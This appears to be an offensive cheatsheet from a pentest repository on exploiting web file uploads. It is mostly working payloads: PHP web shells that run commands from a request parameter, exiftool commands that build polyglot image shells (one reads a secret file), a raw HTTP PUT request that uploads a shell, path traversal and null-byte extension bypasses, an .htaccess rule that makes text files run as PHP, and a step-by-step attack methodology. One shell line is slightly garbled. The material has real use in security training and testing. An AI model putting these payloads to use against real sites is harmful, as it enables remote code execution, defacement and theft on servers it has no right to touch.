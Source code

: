 # 🧠 File Upload Exploitation - Advanced Cheatsheet

https://github.com/six2dez/pentest-book/blob/master/enumeration/web/upload-bypasses.md

## General
- 🔁 **Overwrite files**: Overwrite existing files if filename or path is not properly handled.
- 🐘 **DoS via File Size / Brute Force**: Upload large files or repeatedly upload to exhaust server resources.

## 🔍 Server-side Behavior
- `Content-Type`: Can be forged to bypass restrictions.
- `Content-Disposition`: Controls the uploaded file’s name.
- MIME Types: Weak validation can be bypassed (`image/png` with PHP payload).

---

## 🐚 Web Shell Uploads

### 01 - RCE via Direct Web Shell
- Upload `.php` file with payload like `<?php system($_REQUEST["cmd"]); ?>`
- Access via public URL: `/files/avatars/webshell.php?cmd=id`

### 02 - Bypass via `Content-Type`
- Set `Content-Type: image/png`
- Embed PHP code inside the image — server may still execute it.
```t
## 🖼️ Common Image Types (often whitelisted)
image/jpeg
image/png
image/gif
image/bmp
image/webp
image/svg+xml ← 🔥 useful for XSS payloads in SVG

## 📄 Document Types (used for XXE, metadata injection, etc.)
application/pdf
application/msword
application/vnd.ms-excel
application/vnd.openxmlformats-officedocument.wordprocessingml.document (.docx)
application/vnd.openxmlformats-officedocument.spreadsheetml.sheet (.xlsx)
text/plain ← often accepted, can hide PHP
text/html ← for stored XSS if rendered

## 🧙 Script / Dangerous Types (might be blocked but useful if accepted)
application/x-php
application/x-httpd-php
application/x-perl
application/x-python
application/javascript
text/javascript
text/x-shellscript
text/x-php ← used in some environments

## 🛠️ Polyglot / Edge Case Types
application/octet-stream ← generic binary, may bypass checks
multipart/form-data ← standard for file uploads
application/x-www-form-urlencoded ← sometimes misused

## 🧼 Obfuscation / Evasion Tricks
image/png (used with PHP code inside)
image/jpeg (same trick)
text/plain with PHP code
application/json (some servers parse it insecurely)
application/xml (XXE)
```


### 03 - Path Traversal
- Upload using `filename="../webshell.php"`
- Bypasses restricted folders and places file in an executable path.

### 04 - Obfuscated Extension
- Use tricks like: `ws.php%00.jpg`, `shell.php.jpg`, `.php;.jpg`
- Null byte (`%00`) truncates extension in some servers.

### 05 - Polyglot Web Shell
- Use **magic bytes** and **malicious metadata** (`exiftool`, `cat`)
- Files appear as images but execute code.
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hat_only.png -o polyglot.php

exiftool -DocumentName="<h1>Testing<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" frog.jpg

```

### 06 - PUT method
```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php system($_REQUEST["cmd"]); ?>
```



---



## 🧱 Protections & Bypasses

### 🧨 Extension Blacklist Bypass
```md
.php, .php3, .php5, .phtml, .phps, .asp, .aspx, .jsp, .cgi
.php.jpg, .php.png, .php.txt
exploit.php%00.jpg, exploit.asp;.jpg
exploit.p.phphp, .shell.php.jpg
🔐 .htaccess Trick
Upload .htaccess to force server to treat .txt, .html as PHP:


AddType application/x-httpd-php .html .htm .txt
📎 Other Non-RCE Vectors
Stored XSS via File Upload
Upload .html or .svg with <script> tag.

If the file is accessible under the same origin, stored XSS is possible.

XXE via File Parsing
Servers processing XML (e.g. .doc, .xls, .odt) may be vulnerable to XXE attacks.

🧪 Tips & Reminders
🧪 Fuzz file paths post-upload to locate the shell.

🕵️‍♂️ Check server responses (Location, Content-Disposition).

🐚 Minimal shell: <?=\$_GET[0]`; ?>accessed via/?0=id`

📌 Quick Methodology
Try direct .php upload for RCE.

Bypass MIME with forged image/png.

Use path traversal to escape restricted dirs.

Evade with double extension or null byte.

Create polyglot with crafted metadata.

Upload .htaccess to enable unexpected extensions.

If RCE fails, go for XSS or XXE.